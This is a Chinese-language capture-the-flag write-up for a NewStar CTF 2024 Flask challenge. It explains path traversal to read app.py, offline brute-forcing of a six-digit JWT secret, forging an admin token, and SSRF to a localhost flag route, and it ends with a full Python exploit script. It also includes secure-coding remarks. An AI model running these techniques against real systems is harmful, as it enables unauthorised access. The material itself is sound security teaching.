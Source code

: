 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 这照片是你吗

查看网页源码：

```html
<!-- 图标能够正常显示耶! -->
<!-- 但是我好像没有看到 Niginx 或者 Apache 之类的东西 -->
<!-- 说明服务器脚本能够处理静态文件捏 -->
<!-- 那源码是不是可以用某些办法拿到呢! -->
```

很明显的提示，能够获得静态文件，但是没有用常见的反代服务来区别静态文件和服务型路由。

服务端处理文件和路由的逻辑很有可能会有漏洞。

简单的测试就能知道是路径穿越 + 任意文件读。

查看 Response Header，能够认出来是 Flask app，常用的 Flask 主程序名为为 `app.py`.

<Container type="info">

路径穿越常用 `../`，意为当前文件夹的上一层。
</Container>

本题将静态文件存储在了 `./static` 中，主程序在 `static` 外，那么使用 `GET /../app.py` 就可以拿到源码了。

::: tip
若直接在浏览器中访问带 `../` 的路径，会先被浏览器按照网址路径规则解析一遍 `../`，最终发出的并不是含这个字符串的路径，因此需要用发包软件发送过去。
:::

![发包获取源代码](/assets/images/wp/2024/week3/zhaopian_1.png)

<Container type="quote">

本题的漏洞代码是 `send_file("./static/" + file)`.

与 SQL 注入一样，直接拼接用户可控制输入的字符串是大忌！
</Container>

很轻松的，我们获得了主程序的源代码。

审计源码，可以知道我们要用 `admin` 用户登录来进入面板。两种方法：获取密码或者伪造 `token`.

首先来看密码的长度：

```python
base_key = str(uuid.uuid4()).split("-")
admin_pass = "".join([ _ for _ in base_key])
```

`admin` 的密码长度是 32 个字符，而整个程序有登录次数限制，因此无法爆破密码来登录。

而伪造 `token` 则需要 `secret_key`，查看生成逻辑：

```python
secret_key = get_random_number_string(6)
```

6 位数字字符串，可以在数秒内完成爆破。

```python
users = {
    'admin': admin_pass,
    'amiya': "114514"
}
```

通过本段代码我们可以知道一个有效账户 `amiya`，密码 `114514`，通过发包登录，我们可以获得一个有效的 `token`，据此能在本地认证签名 `secret_key` 的有效性（因为目标主机有认证次数限制）。

<Container type="quote">

用明文存密码也是大忌！安全的做法是存储哈希值，并且加入一定的盐值（Salt）。
</Container>

爆破出 `secret_key`，然后查看登录后的逻辑：

前端请求 `/execute` 指定 `api_address`，而 `api_address` 可控且没有校验，存在 SSRF 漏洞。

定位到源代码开头：

```python
from flag import get_random_number_string
```

这是出题人故意漏的信息，将函数写在了 flag 模块并 import，提示查看 `flag.py`

```python
@get_flag.route("/fl4g")
# 如何触发它呢?
def flag():
    return FLAG
```

::: tip
Python 程序可以 import 同一目录下的 `.py` 文件而不必创建 `__init__.py` 等标记模块的文件。因此这里同级目录下有文件名为 `flag.py` 的程序，模块名为 `flag`.
:::

我们的操作很明确了：利用 `/execute` 路由的 SSRF 漏洞让服务器自己访问 `http://localhost:5001/fl4g`，即访问 `/execute?api_address=http://localhost:5001/fl4g`.

EXP 如下：

```python
import time
import requests
import jwt
import sys

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} <url>")
    sys.exit(1)

url = sys.argv[-1]


def get_number_string(number,length):
    return str(number).zfill(length)

print("[+] Exploit for newstar-zhezhaopianshinima")
print("[+] Getting a valid token from the server")

LENGTH = 6
req = requests.post(url+"/login", data={"username":"amiya","password":"114514"})
token = req.cookies.get("token")

print(f"[+] Got token: {token}")
print("[+] Brute forcing the secret key")
for i in range(1000000):
    secret_key = get_number_string(i,LENGTH)
    try:
        decoded = jwt.decode(token, secret_key, algorithms=["HS256"])
        break
    except jwt.exceptions.InvalidSignatureError:
        continue

print(f"[+] Found secret key: {secret_key}")
fake_token = jwt.encode({'user': 'admin', 'exp': int(time.time()) + 600}, secret_key)

print(f"[+] Generated a fake token: {fake_token}")

print("[+] Getting the flag")
req = requests.get(url+"/execute?api_address=http://localhost:5001/fl4g", cookies={"token":fake_token})

print(f"[+] Flag: {req.text}")
```
